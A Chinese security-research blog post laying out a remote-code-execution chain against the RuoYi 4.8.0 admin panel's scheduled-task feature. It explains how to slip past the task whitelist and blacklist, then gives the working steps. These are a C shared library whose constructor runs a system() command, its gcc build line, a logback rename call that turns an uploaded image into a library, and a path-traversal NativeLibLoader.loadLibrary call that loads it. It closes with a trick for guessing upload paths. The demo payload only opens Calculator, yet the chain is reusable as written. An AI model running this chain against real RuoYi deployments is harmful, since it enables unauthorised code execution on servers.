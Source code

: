 #  【安全研究】若依4.8.0版本计划任务RCE研究   
原创 r0ser1  PokerSec   2025-04-24 01:00  
  
> 痛苦的时刻，就是真相大白的时刻。只有接受现实，才能做出有意义的改变。    ——《纳瓦尔宝典》  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 需满足的条件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI8aqdS4xicqjf5nhBKLBVShFmN744VqcjkiaVtTGPz68uIIadeq9vZiajV6zl21XWsGKTHPzictadMGg/640?wx_fmt=png&from=appmsg "")  
  
最新版本4.8 Ruoyi 后台目前限制  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI8aqdS4xicqjf5nhBKLBVSh9yzPicETcyS8qMeSekiaCfUnyGoZnBDft0PUfQeFqLJibkqCnF11MAscg/640?wx_fmt=png&from=appmsg "null")  
  
JOB_WHITELIST_STR  
 这个也就是com.ruoyi.quartz.task  
 其实不用类名 包含在自符串里面就行 这里是invokeTarget  
而不是beanPackageName  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI8aqdS4xicqjf5nhBKLBVShCNLTEHHmLMLAFY3p3YN6QiaPoDVUibNqEMnfStI8nKBOjabPT3ajgHtg/640?wx_fmt=png&from=appmsg "null")  
  
然后不用JOB_ERROR_STR  
 这个类里面的 从mvn install 后 从其他包下面去寻找可利用的类下的方法就行  
  
需要满足以下条件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Ej4eNleprJI8aqdS4xicqjf5nhBKLBVShNAykpxmUJRyrjtRcOwwvnoO1H5cRandGSDibw10haQsjGepWHCq4TfQ/640?wx_fmt=other&from=appmsg "null")  
  
传递的参数只能是其中的这些类型 通过 , 进行分割。substringBetween  
获取的是() 里面 不能继续包含 )了会截断  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI8aqdS4xicqjf5nhBKLBVShL6SibwshVibjrODfMPLFrxfShd5kZTsY9AlUNIxZ0o02k9oEJ24MA96Q/640?wx_fmt=png&from=appmsg "null")  
  
那我们可以直接去找String 可控到sink 的类就可以了。  
  
这里反射的时候还需要注意 需要满足 存在一个参构造 且都是public的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI8aqdS4xicqjf5nhBKLBVShu6YIRgFeorYGYRFOf7RpmFxpS3JSGicBkC0oCOacOejUILvNPfLvzsw/640?wx_fmt=png&from=appmsg "null")  
  
总结下来就是需要满足  
  
1.传入的字符串需要包含com.ruoyi.quartz.task  
  
2.不能包含JOB_ERROR_STR  
里面的字符串 其实也就是非JOB_ERROR_STR  
里面的类  
  
3.需要找的类需要满足 一个无参构造且是Public ，方法也需要是Public。传递的参数只能是基本类型 不可以包含 )  
## 寻找  
  
浅蓝师傅在jndi 中提到  
https://tttang.com/archive/1405/#toc_nativelibloader  
  
可以加载com.sun.glass.utils.NativeLibLoader.loadLibrary  
  然后进行rce  
  
但是默认会根据目前的平台进行自动添加后缀 那么其实可以结合上传 比如上传一个图片 去寻找一个重命名的方法即可  
  
上传的话默认接口就可以 filename包含com.ruoyi.quartz.task  
即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI8aqdS4xicqjf5nhBKLBVShalq5QBQbWrsemQm5FtRtBTaYlBDFSYe1ElOHs4FibI5GzvCneMT2Opw/640?wx_fmt=png&from=appmsg "null")  
  
通过上面条件写一个ql 通过Codeql寻找  其实可以加一点sink 来进行限制  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI8aqdS4xicqjf5nhBKLBVShq0SiabkMxUkEPVswicibmw5Lbob9yicBT1xdTfTqsfPOAayWNiaIc7ccOUg/640?wx_fmt=png&from=appmsg "null")  
  
那么其实就可以写一个  
```
#include <stdlib.h>

__attribute__((constructor))
static void run() {
    system("open -a Calculator");
}
```  
  
  
进行编译  
```
gcc -shared -o libcalc.dylib calc.c
```  
  
  
之后进行copy重命名即可  
```
ch.qos.logback.core.rolling.helper.RenameUtil.renameByCopying('/home/ruoyi/uploadPath/avatar/2000/00/00/com.ruoyi.quartz.task_20000000163516A006.png','/home/ruoyi/uploadPath/avatar/2000/00/00/com.ruoyi.quartz.task_20000000163516A006.dylib')
```  
  
  
但是这里有一个点了就是上传目录的问题了 /home/ruoyi是默认的 改了的话就需要猜测了 因为4.8.0 控制目录的类给在黑名单里面了。  
  
之后再进行加载就行了  
```
com.sun.glass.utils.NativeLibLoader.loadLibrary('../../../../../../../../home/ruoyi/uploadPath/avatar/2000/00/00/com.ruoyi.quartz.task_20000000163516A006')
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJI8aqdS4xicqjf5nhBKLBVShjowljcpFFr5DBQ6xmiaBicpY2UTwV8nvKKeW6ibFXu8YX8ICE3oD14xZA/640?wx_fmt=png&from=appmsg "null")  
## 利用难点  
1. com.sun.glass.utils.NativeLibLoader.loadLibrary  
 不是所有JDK都存在的 需要存在FX  或者根据ruoyi显示的jdk目录来替换jar从而rce  
  
1. 文件上传的路径如果不是默认/home/ruoyi  
 就需要猜测了 目前没有找到好的方法  
  
猜测的话可以搭配ch.qos.logback.core.FileAppender.openFile  
 使用  因为会默认创建一个空文件 猜测前缀即可  
  
ch.qos.logback.core.FileAppender.openFile  
('前缀+/uploadPath/download/com.ruoyi.quartz.task.log') 之后访问/profile/前缀+/uploadPath/download/com.ruoyi.quartz.task.log 来判断  
  
  
  
文章不足之处欢迎大师傅们指点和纠正，感激不尽。  
  
  
